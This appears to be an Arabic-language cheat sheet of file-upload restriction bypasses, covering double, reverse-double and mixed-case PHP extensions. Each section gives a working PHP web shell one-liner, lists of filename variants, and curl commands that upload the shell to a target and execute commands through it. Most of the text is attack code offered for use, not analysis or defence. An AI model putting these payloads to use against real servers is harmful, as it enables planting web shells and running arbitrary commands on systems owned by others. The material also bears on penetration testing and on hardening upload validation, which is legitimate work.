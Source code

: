 ## جميع المحاولات الممكنة لتجاوز قيود الامتدادات

فيما يلي قائمة شاملة بجميع التقنيات الممكنة لتجاوز قيود الامتدادات، مقسمة إلى فئات مع شرح كل تقنية، كيف تعمل، متى تُستخدم، والأوامر المرتبطة بها.

```php
<?php system($_GET['cmd']); ?>
```

### 1. الامتدادات المزدوجة (Double Extensions)
**شرح**: إضافة امتداد مسموح (مثل `.jpg`) بعد امتداد قابل للتنفيذ (مثل `.php`) لخداع الخادم. بعض الخوادم تتحقق فقط من الامتداد الأخير.
**كيف يعمل**: الخادم قد يقبل الملف كصورة بسبب الامتداد الأخير، لكنه يُنفذ كـ PHP إذا تمت زيارته مباشرة.
**متى يُستخدم؟**: عندما يكون التحقق من الامتدادات سطحيًا أو يعتمد على الامتداد الأخير فقط.
**المحاولات**:
- `shell.jpg.php`
- `shell.png.php5`
- `shell.gif.php7`
- `shell.pdf.php`
**الأوامر**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.jpg.php
curl -X POST -F "file=@shell.jpg.php" http://<target>/upload
curl 'http://<target>/Uploads/shell.jpg.php?cmd=whoami'
```

### 2. الامتدادات المزدوجة العكسية (Reverse Double Extension)
**شرح**: استخدام امتداد قابل للتنفيذ متبوعًا بامتداد مسموح (مثل `.php.jpg`). يستغل إعدادات Apache الخاطئة التي تُنفذ الملفات التي تحتوي على `.php` في أي جزء من الاسم.
**كيف يعمل**: Apache قد يُفسر الملف كـ PHP إذا كان mod_php مُفعلاً بشكل غير صحيح.
**متى يُستخدم؟**: على خوادم Apache القديمة أو المُهيأة بشكل خاطئ.
**المحاولات**:
- `shell.php.jpg`
- `shell.php5.png`
- `shell.php7.gif`
**الأوامر**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php.jpg
curl -X POST -F "file=@shell.php.jpg" http://<target>/upload
curl 'http://<target>/Uploads/shell.php.jpg?cmd=whoami'
```

### 3. الامتدادات بحالة أحرف مختلطة (Mixed Case Extensions)
**شرح**: استخدام مزيج من الأحرف الكبيرة والصغيرة (مثل `.pHp` بدلاً من `.php`) لتجاوز التحقق الحساس لحالة الأحرف.
**كيف يعمل**: بعض الخوادم أو السكربتات لا تتحقق من حالة الأحرف، مما يسمح بتنفيذ الملف.
**متى يُستخدم؟**: عند الاشتباه بتحقق حساس لحالة الأحرف أو فلاتر ضعيفة.
**المحاولات**:
- `shell.pHp`
- `shell.PHP5`
- `shell.PhAr`
- `shell.pHtM`
**الأوامر**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.pHp
curl -X POST -F "file=@shell.pHp" http://<target>/upload
curl 'http://<target>/Uploads/shell.pHp?cmd=whoami'
```
